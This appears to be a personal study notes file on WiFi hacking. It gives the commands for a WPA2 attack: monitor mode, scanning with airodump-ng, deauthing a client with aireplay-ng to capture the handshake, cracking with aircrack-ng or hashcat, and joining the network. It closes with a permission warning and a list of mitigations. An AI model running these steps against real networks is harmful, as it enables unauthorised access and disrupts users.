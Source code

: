 
# Intro to WiFi Hacking Notes
- Notes by Anthony Picarello (BluP3gu1n)

## **Do not use these techniques on networks you are not given permission to attack, you will get in trouble**


### Tools
	- Aircrack-ng Suite
	- WiFi Pineapple
	- FlipperZero
	- WiFi Adapter
	- WiFi Cantenna / Extender
	- WiGLE
	- hashcat
	- crewl
	- crunch

### WPA2 Attack Methodology 

1. Get WiFi Adapter online in Kali
	1. Install Drivers (Alfa WiFi Card steps below)
	    1. Install Linux Kernel Headers
	    ```bash
	    sudo apt-get install linux-headers-$(uname -r)
	    ```
	    2. Clone GitHub package to /opt folder
	    ```bash
	    cd /opt
	    sudo git clone https://github.com/morrownr/8812au-20210629.git
	    ```
	    3. Run script
	    ```bash
	    cd /opt/8812au-20210629
	    sudo ./install-driver.sh
	    ```
	    4. Type 'No' when asked to change settings and 'Yes' to reboot
	    5. After reboot Alfa Adapter should light up and should be visible with the following command:
	    ```bash
	    iwconfig
	    ```
	2. Put adapter into monitor mode
	    1. Need to run airmon-ng with check-kill option:
	    ```bash
	    sudo airmon-ng check kill <interface>
	    sudo airmon-ng start <interface>
	    ```
2. Scan WiFi networks
    ```bash
    sudo airodump-ng <interface>
    ```
	1. Need to Identify the Following Info:
		1. BSSID (Access Point MAC Address)
		2. Channel number
		3. Client MAC Address
		4. Channel number
		5. Potential passwords
3. Launch DeAuth Attack on Client while listening to traffic
	1. Traffic can be captured with either airodump or wireshark
	2. Run aireplay
		1. Make sure to send a small number of deauth packets to capture handshake
	```bash
	sudo aireplay-ng -0 1 -a <BSSID> -c <Client mac (Station)> <name of interface> 
	```
	3. Stop traffic collection
4. Crack WiFi password
	1. Use aircrack-ng or hashcat`
		1. Run against a common wordlist (rockyou.txt) or generate your own wordlist (crewl, crunch or manually)
5. One password is obtained, get on the network
	1. Need to restart network manager service
	2. Connect
	3. Complete additional objectives


### Mitigation's for WiFi attacks

- Use up-to-date encryption (WPA3)
- Use long and complex passwords not tied to anything in your personal life
- Have an isolated guest network for visitors
- Use a VPN when on public WiFi with others
- Turn off WiFi on phone when out and about
- Check and double check before connecting to a WiFi network

### Links

- Alfa WiFi adapter: https://www.amazon.com/Network-AWUS036ACS-Wide-Coverage-Dual-Band-High-Sensitivity/dp/B0752CTSGD/ref=sr_1_4

- Drivers for WiFi adapter: https://docs.alfa.com.tw/Support/Linux/RTL8811AU/

- Max Vision video: https://www.youtube.com/watch?v=cO1LRhcImSc

- Darknet Diaries Episode: https://darknetdiaries.com/episode/85/

